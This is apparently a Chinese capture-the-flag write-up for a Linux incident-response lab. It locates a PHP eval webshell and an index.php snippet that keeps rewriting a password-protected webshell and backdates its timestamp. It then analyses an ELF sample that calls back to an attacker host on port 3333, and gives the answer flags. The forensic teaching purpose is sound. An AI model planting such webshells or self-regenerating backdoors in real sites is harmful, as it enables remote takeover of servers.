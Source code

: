 # 第一章 应急响应 - Linux 入侵排查

## 1

> web 目录存在木马，请找到木马的密码提交

列出 `/var/www/html` 目录下的所有文件

```plaintext
root@ip-10-0-10-4:/var/www/html# ls -lah
total 736K
drwxrwxrwx 8 www-data www-data 4.0K Aug  3  2023  .
drwxr-xr-x 3 root     root     4.0K Aug  3  2023  ..
-rwxrwxrwx 1 www-data www-data   24 Aug  3  2023  1.php
-rw-r--r-- 1 root     root     640K Aug  3  2023  1.tar
drwxrwxrwx 3 www-data www-data 4.0K Aug  3  2023  admin
-rwxrwxrwx 1 www-data www-data  280 Aug  3  2023  api.php
-rwxrwxrwx 1 www-data www-data  882 Aug  3  2023  config.php
drwxrwxrwx 3 www-data www-data 4.0K Aug  3  2023  data
-rwxrwxrwx 1 www-data www-data  894 Aug  3  2023  favicon.ico
-rwxrwxrwx 1 www-data www-data  142 Aug  3  2023  .htaccess
drwxrwxrwx 4 www-data www-data 4.0K Aug  3  2023  include
-rwxrwxrwx 1 root     root      722 Aug  3  2023  index.php
-rwxrwxrwx 1 www-data www-data  13K Aug  3  2023  install.php
-rwxrwxrwx 1 www-data www-data 1.1K Aug  3  2023  LICENSE
drwxrwxrwx 2 www-data www-data 4.0K Aug  3  2023  pictures
-rwxrwxrwx 1 www-data www-data 2.2K Aug  3  2023  README.md
-rwxrwxrwx 1 www-data www-data 1.1K Aug  3  2023  rss.php
-rw-r--r-- 1 www-data www-data  207 Aug  3  2023 'shell(1).elf'
-rw-r--r-- 1 www-data www-data   88 Jan  1  2021  .shell.php
-rwxrwxrwx 1 www-data www-data  566 Aug  3  2023  sitemap.php
drwxrwxrwx 3 www-data www-data 4.0K Aug  3  2023  template
drwxrwxrwx 3 www-data www-data 4.0K Aug  3  2023  wap
```

相较于传统的 web 服务端源码，其 `1.php` 文件名尤为可疑，查看其文件内容

```php title="1.php"
<?php eval($_POST[1]);?>
```

即可得知木马的连接密码

```flag
flag{1}
```

## 2

> 服务器疑似存在不死马，请找到不死马的密码提交

文件的修改时间都一样，但是 `index.php` 文件的权限明显与其他文件不同，为 `root`

查看 `index.php` 文件的内容

```php title="index.php"
<?php
include('config.php');
include(SYS_ROOT.INC.'common.php');
$path=$_SERVER['PATH_INFO'].($_SERVER['QUERY_STRING']?'?'.str_replace('?','',$_SERVER['QUERY_STRING']):'');
if(substr($path, 0,1)=='/'){
        $path=substr($path,1);
}
$path = Base::safeword($path);
$ctrl=isset($_GET['action'])?$_GET['action']:'run';
if(isset($_GET['createprocess']))
{
        Index::createhtml(isset($_GET['id'])?$_GET['id']:0,$_GET['cat'],$_GET['single']);
}else{
        Index::run($path);
}
$file = '/var/www/html/.shell.php';
$code = '<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';
file_put_contents($file, $code);
system('touch -m -d"2021-01-01 00:00:01".shell.php');
usleep(3000);
?>
```

很明显，存在有往 `.shell.php` 文件写入 webshel 的操作，其 webshell 源码为

```php title=webshell
<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>
```

由于每一次访问服务端，都要访问 `index.php` 文件，那么 `.shell.php` 文件就会一直被创建，即可一定意义上实现不死的效果

基于 php 代码 `md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"` 的逻辑，将 MD5 哈希进行反查彩虹表，即可知道连接密码为 `hello`

```flag
flag{hello}
```

## 3

> 不死马是通过哪个文件生成的，请提交文件名

由上一题可以得知，不死马 `.shell.php` 文件是由 `index.php` 文件创建的，所以可以得到答案

```flag
flag{index.php}
```

## 4

> 黑客留下了木马文件，请找出黑客的服务器 ip 提交

继续查看攻击者可能上传的目录 `/var/www/html` 以及 `/tmp`

```plaintext
root@ip-10-0-10-4:/var/www/html# ls -lah
total 736K
drwxrwxrwx 8 www-data www-data 4.0K Aug  3  2023  .
drwxr-xr-x 3 root     root     4.0K Aug  3  2023  ..
-rwxrwxrwx 1 www-data www-data   24 Aug  3  2023  1.php
-rw-r--r-- 1 root     root     640K Aug  3  2023  1.tar
drwxrwxrwx 3 www-data www-data 4.0K Aug  3  2023  admin
-rwxrwxrwx 1 www-data www-data  280 Aug  3  2023  api.php
-rwxrwxrwx 1 www-data www-data  882 Aug  3  2023  config.php
drwxrwxrwx 3 www-data www-data 4.0K Aug  3  2023  data
-rwxrwxrwx 1 www-data www-data  894 Aug  3  2023  favicon.ico
-rwxrwxrwx 1 www-data www-data  142 Aug  3  2023  .htaccess
drwxrwxrwx 4 www-data www-data 4.0K Aug  3  2023  include
-rwxrwxrwx 1 root     root      722 Aug  3  2023  index.php
-rwxrwxrwx 1 www-data www-data  13K Aug  3  2023  install.php
-rwxrwxrwx 1 www-data www-data 1.1K Aug  3  2023  LICENSE
drwxrwxrwx 2 www-data www-data 4.0K Aug  3  2023  pictures
-rwxrwxrwx 1 www-data www-data 2.2K Aug  3  2023  README.md
-rwxrwxrwx 1 www-data www-data 1.1K Aug  3  2023  rss.php
-rw-r--r-- 1 www-data www-data  207 Aug  3  2023 'shell(1).elf'
-rw-r--r-- 1 www-data www-data   88 Jan  1  2021  .shell.php
-rwxrwxrwx 1 www-data www-data  566 Aug  3  2023  sitemap.php
drwxrwxrwx 3 www-data www-data 4.0K Aug  3  2023  template
drwxrwxrwx 3 www-data www-data 4.0K Aug  3  2023  wap

root@ip-10-0-10-4:/var/www/html# ls -lah /tmp/
total 36K
drwxrwxrwt  9 root root 4.0K Oct  1 08:09 .
drwxr-xr-x 18 root root 4.0K Oct  1 08:01 ..
drwxrwxrwt  2 root root 4.0K Oct  1 08:01 .font-unix
drwxrwxrwt  2 root root 4.0K Oct  1 08:01 .ICE-unix
drwx------  3 root root 4.0K Oct  1 08:01 systemd-private-556ceaa0b7d640a194d01e0c1d5a943e-apache2.service-EqvlaG
drwx------  3 root root 4.0K Oct  1 08:01 systemd-private-556ceaa0b7d640a194d01e0c1d5a943e-ntp.service-LiXjoD
drwxrwxrwt  2 root root 4.0K Oct  1 08:01 .Test-unix
drwxrwxrwt  2 root root 4.0K Oct  1 08:01 .X11-unix
drwxrwxrwt  2 root root 4.0K Oct  1 08:01 .XIM-unix
```

在其中可以注意到可疑 `/var/www/html/shell(1).elf` 文件，基本可以断定此为攻击者的木马文件

使用微步云沙箱进行分析

[样本报告 - 微步在线云沙箱](https://s.threatbook.com/report/file/f176896a421ec411a08aad8ae4592c51609ff95e140c8f3bbe4160424f79ff5d)

在网络行为部分，可以注意到沙箱环境向 `10.11.55.21` 发起了 TCP 请求

```flag
flag{10.11.55.21}
```

## 5

> 黑客留下了木马文件，请找出黑客服务器开启的监端口提交

手动执行 `/var/www/html/shell(1).elf` 样本之后，直接使用 `netstat -alnop` 脚本查看监听端口

```plaintext
root@ip-10-0-10-4:/var/www/html# ./shell\(1\).elf &
[1] 25691
root@ip-10-0-10-4:/var/www/html# netstat -alnop
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name     Timer
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      540/mysqld           off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      472/sshd             off (0.00/0/0)
tcp        0      0 10.0.10.4:22            120.35.33.11:58144      ESTABLISHED 961/sshd: root@nott  keepalive (5663.12/0/0)
tcp        0      1 10.0.10.4:59968         10.11.55.21:3333        SYN_SENT    25691/./shell(1).el  on (3.28/2/0)
tcp        0    340 10.0.10.4:22            120.35.33.11:56644      ESTABLISHED 824/sshd: root@pts/  on (0.22/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      523/apache2          off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      472/sshd             off (0.00/0/0)
udp        0      0 0.0.0.0:68              0.0.0.0:*                           334/dhclient         off (0.00/0/0)
udp        0      0 10.0.10.4:123           0.0.0.0:*                           451/ntpd             off (0.00/0/0)
udp        0      0 127.0.0.1:123           0.0.0.0:*                           451/ntpd             off (0.00/0/0)
udp        0      0 0.0.0.0:123             0.0.0.0:*                           451/ntpd             off (0.00/0/0)
udp6       0      0 fe80::f0:ccff:fe9d::123 :::*                                451/ntpd             off (0.00/0/0)
udp6       0      0 ::1:123                 :::*                                451/ntpd             off (0.00/0/0)
udp6       0      0 :::123                  :::*                                451/ntpd             off (0.00/0/0)
......
```

可以看到，恶意样本向 `10.11.55.21:3333` 发起了网络请求，结合上一步攻击者服务器 IP 即可得知答案

还有一个取巧的办法，就是在微步云沙箱里面直接下载网络行为捕获

![img](img/image_20241045-164548.png)

在捕获文件中，也可以看到沙箱环境向 `10.11.55.21:3333` 这个地址发起请求的记录

![img](img/image_20241046-164642.png)

```flag
flag{3333}
```
